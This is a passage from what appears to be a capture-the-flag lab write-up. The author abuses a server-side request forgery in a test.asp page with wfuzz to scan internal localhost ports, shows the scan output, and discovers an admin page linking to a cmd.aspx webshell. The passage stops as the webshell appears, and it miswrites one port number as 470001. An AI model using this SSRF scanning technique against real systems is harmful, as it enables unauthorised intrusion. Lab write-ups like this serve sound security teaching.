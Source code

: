 ```

```

This takes a long time to run completely, but it doesn’t take long to find port 80. Still, it’s an empty (0 character response. I’ll try the same scan, but this time using `127.0.0.1` instead of `10.10.10.57`:

```

oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/ -z range,1-65535 --hc 5
00
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/
Total requests: 65535

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                
===================================================================

000000080:   200        12 L     25 W     323 Ch      "80"
000005985:   200        0 L      0 W      0 Ch        "5985"
000047001:   200        0 L      0 W      0 Ch        "47001"
000062696:   200        13 L     37 W     458 Ch      "62696"

Total time: 7341.611
Processed Requests: 65535
Filtered Requests: 65531
Requests/sec.: 8.926514

```

This time the response is not empty.

Both scan also find WinRM-related ports (5985 and 470001).

#### Site Administration

The site on localhost is titled Site Administration:

![image-20220405084042030](https://0xdfimages.gitlab.io/img/image-20220405084042030.png)

It’s a bit strange that the first four links show as visited given I’ve never been to this site before. That’s because they each lead to the current location, `http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/`.

The last one is different, leading to `http://127.0.0.1/cmd.aspx`. Clicking that will lead my browser to try to load `cmd.aspx` off my host, which doesn’t exist. But I can visit it via `test.asp`, and it presents a simple webshell:

